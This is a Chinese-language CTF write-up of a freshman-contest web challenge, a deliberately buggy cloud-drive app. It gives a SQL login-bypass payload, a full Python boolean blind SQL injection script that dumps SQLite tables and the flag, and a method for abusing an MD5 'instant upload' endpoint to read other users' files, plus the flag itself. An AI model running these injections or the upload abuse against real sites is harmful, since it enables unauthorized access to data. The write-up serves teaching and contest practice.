 # 漏洞百出的FAST网盘！

## 缘起

临近新生赛，koali绞尽脑汁都没想到要出什么题，直到想起某一次打比赛遇到的网盘，一拍脑袋决定也出一个网盘。那段时间刚好pyy在搞amis，恳切地希望koali用一下他的amis_helper，并为这个网盘提出了建设性的意见，于是决定超前试用一下。

考虑到是作为新生赛题，在希望大伙学到一点东西的同时，又不能太为难大家，于是从最简单的万能密码起手，再到没有过滤的SQL盲注；最后一问的秒传思路比较清奇，不太容易想到（别打我，打pyy），不过看完wp应该会有一种恍然大悟的感觉(●'◡'●)确信！



## 预期解

### 什么什么，万能密码？

如题，直接通过万能密码登录

![image-20230513204620869](image-20230513204620869.png)

因为背后是个sqlite，默认注释采用`--`的形式，输`#`会给你报错。

### babySQL!

简单的SQl盲注。后来给了Hint说flag在数据库里，所以做法是从用户名密码这个位置注入，把数据库里面的东西都注出来就好辣，下面附上盲注脚本：

```
import requests

cookies = {}
headers = {}
json_data = {
    'passwd': 'a',
    'uname': 'a',
}
payload = ""
url = ""

def crack_sql():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 128
        mid = (low + high) // 2
        while (low < high):
            # payload = "1' or substr((select hex(group_concat(name)) from sqlite_master where type = 'table'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注表名
            # payload = "1' or substr((select hex(group_concat(sql)) from sqlite_master where name = 'flag2'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注出创建时的sql语句，也就是注出列
            payload = "1' or substr((select hex(group_concat(flag)) from flag2),{0},1)>'{1}'/*" . format(i, chr(mid)) # 注出flag
            json_data = {
                "uname": payload,
                "passwd": 'pyy'
            }
            res = requests.post(url,cookies=cookies, headers=headers, json=json_data, verify=False)

            if '登录成功' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if (mid == 32 or mid == 127):
            break
        flag = flag + chr(mid)
        print(flag)

    print('\n' + bytes .fromhex(flag) . decode('utf-8'))


if __name__ == "__main__":
    crack_sql()
```

### 好快的传

这一问需要在注出数据库的基础上才能做，并且可能需要亿点点的脑洞以及大胆的尝试。

数据库里的表有：`amis,flag2,user,file,user_file`，可以看到`file`表里面有两个字段：

```sql
sql.db> select * from file;
+----+-----------+----------------------------------+
| id | filename  | fileMD5                          |
+----+-----------+----------------------------------+
| 1  | flag3.txt | 760b38b5e21803df4e72bf0eb443006b |
| 2  | flag1.txt | dfb076dfb501134d56e51538e5360a1e |
+----+-----------+----------------------------------+
```

你会发现数据库里面存了文件的MD5。

上传文件的时候抓个包，会发现首先过了一层秒传的校验然后再进入正常的upload接口。虽然站在做题的角度不知道这个秒传有什么用，但是你会看到它传了文件的md5和文件名进去。

![image-20230513213037762](image-20230513213037762.png)

![image-20230513213043347](image-20230513213043347.png)

在通过万能密码登陆的这个账号里，有一个flag1，我们可以尝试通过秒传接口上传一个文件名不同但md5相同的文件，查看网盘的情况。这里的msg返回是提示你秒传成功

![image-20230513221410745](image-20230513221410745.png)



去网盘查看，发现多出了一个文件flag111.txt，内容是flag1。

![image-20230513222932863](image-20230513222932863.png)

到这里可以猜测在上传相同md5文件的时候，不会经过upload，而是直接通过秒传将文件链接到当前用户目录下，导致文件泄露。

所以同样，我们可以考虑将flag3的md5发给秒传，然后在网盘里下载下来就好辣~

![image-20230513233810085](image-20230513233810085.png)

如果事先知道[秒传](https://www.helloweba.net/php/636.html),应该一眼就看出来了，如果不知道的话...只能靠脑洞和尝试了。

```
r00t2023{异世相遇,尽享美味!}
```

## 写在最后

虽然感觉题出完的时候思路非常妙，但写wp再复现一遍的时候发现这题有bug，我们没有给每个用户开独立的环境，所相当于如果有一个人拿到flag3链接过来，所有的人都拿到flag了...

（还好没人做出来ヾ(•ω•`)o

源码漏洞百出，大家将就着看。koali的代码水平并不好，还请多多包涵捏~